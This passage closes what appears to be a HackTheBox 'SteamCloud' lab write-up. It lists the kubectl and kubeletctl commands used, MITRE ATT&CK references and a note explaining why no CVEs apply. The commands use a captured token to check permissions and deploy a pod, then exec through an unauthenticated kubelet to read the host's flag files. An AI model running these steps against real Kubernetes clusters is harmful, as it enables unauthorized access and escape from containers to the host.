kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.167:8443 get pods
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.167:8443 auth can-i --list
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.167:8443 apply -f f.yaml
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.167:8443 get pods
kubeletctl --server 10.129.96.167 exec "cat /root/home/user/user.txt" -p nginxt -c nginxt
kubeletctl --server 10.129.96.167 exec "cat /root/root/root.txt" -p nginxt -c nginxt
```

### E. References

- [MITRE ATT&CK: T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)
- [MITRE ATT&CK: T1611 — Escape to Host](https://attack.mitre.org/techniques/T1611/)
- [MITRE ATT&CK: T1552 — Unsecured Credentials](https://attack.mitre.org/techniques/T1552/)
- [Official HackTheBox Machine Page — SteamCloud](https://app.hackthebox.com/machines/SteamCloud)
- [Kubernetes Docs: Kubelet Authentication/Authorization](https://kubernetes.io/docs/reference/access-authn-authz/kubelet-authn-authz/)
- [kubeletctl (CyberArk)](https://github.com/cyberark/kubeletctl)

> **Note on CVEs:** These findings are configuration/hardening weaknesses (missing Kubelet authentication, over-permissioned RBAC, and unrestricted `hostPath` mounts) rather than flaws in a specific versioned software component, so no CVE identifiers apply.
